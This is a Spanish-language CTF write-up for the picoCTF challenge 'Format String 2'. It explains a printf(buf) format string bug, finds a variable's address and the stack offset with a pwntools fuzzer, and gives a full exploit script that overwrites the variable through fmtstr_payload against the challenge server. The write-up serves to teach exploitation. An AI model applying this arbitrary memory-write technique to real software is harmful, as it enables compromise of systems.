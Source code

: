 # Format String 2

En este ejercicio tenemos un binario y su código en C.

```c
./vuln                    
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
hola
Here's your input: hola
sus = 0x21737573
You can do better!   
```

El programa nos devuelve lo que le pongamos y nos muestra el valor de la variable `sus`.

Si analizamos el código podemos ver cómo nuestro input se maneja de una manera insegura, sin especificar el formato, lo cual introduce una vulnerabilidad de format strings.

```c
scanf("%1024s", buf);
printf("Here's your input: ");
printf(buf); // Vulnerabilidad Format String
```

Gracias a esto podemos imprimir lo que haya en el stack.

La condición de victoria es establecer en la variable `sus` el siguiente valor:

```c
if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
}
```

Como no parece que haya ninguna otra vulnerabilidad, esto da a entender que debemos modificar el valor de `sus` utilizando la vulnerabilidad de format string. Para hacerlo necesitamos dos cosas:

1. Dirección en memoria de la variable a modificar.
2. Offset en el stack donde se encuentra nuestro input.

Para obtener la dirección de `sus`, podemos utilizar el comando `p &sus` en `dbg`:

```c
pwndbg> p &sus
$5 = (<data variable, no debug info> *) 0x404060 <sus>
```

Ahora que tenemos la dirección, solo nos falta saber la posición de nuestro input en el stack. Para esto podemos usar un fuzzer:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)

for i in range(100):
    try:
        p = process(level='error')
        p.sendlineafter(b'?', 'ABCDEF%{}$x'.format(i).encode())
        result = p.recvuntil(b'!')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

Al revisar el resultado vemos lo siguiente:

```
13: b"\nHere's your input: ABCDEF0\nsus = 0x21737573\nYou can do better!"
14: b"\nHere's your input: ABCDEF44434241\nsus = 0x21737573\nYou can do better!" // Aquí
15: b"\nHere's your input: ABCDEF782435\nsus = 0x21737573\nYou can do better!"
```

En la posición 14 obtenemos `44434241`, que convertido a ASCII es:

```bash
pwn unhex 44434241           
DCBA
```

Y si recordamos, el fuzzer enviaba lo siguiente:

```python
p.sendlineafter(b'?', 'ABCDEF%{}$x'.format(i).encode())
```

Así que en la posición 14 del stack comienza a almacenarse nuestro input.

Con esta información, ya podemos usar la función `fmtstr_payload`, pasándole los parámetros necesarios para modificar la variable `sus` y obtener la flag:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rhea.picoctf.net", 49373)
    return r

def main():
    r = conn()

    offset = 14  # Posición del input en el stack
    direccion_sus = exe.symbols['sus']  # Dirección de 'sus'
    valor = {direccion_sus: 0x67616c66}  # Valor objetivo para 'sus'
    
    payload = fmtstr_payload(offset, valor, write_size='byte')
    
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()
```
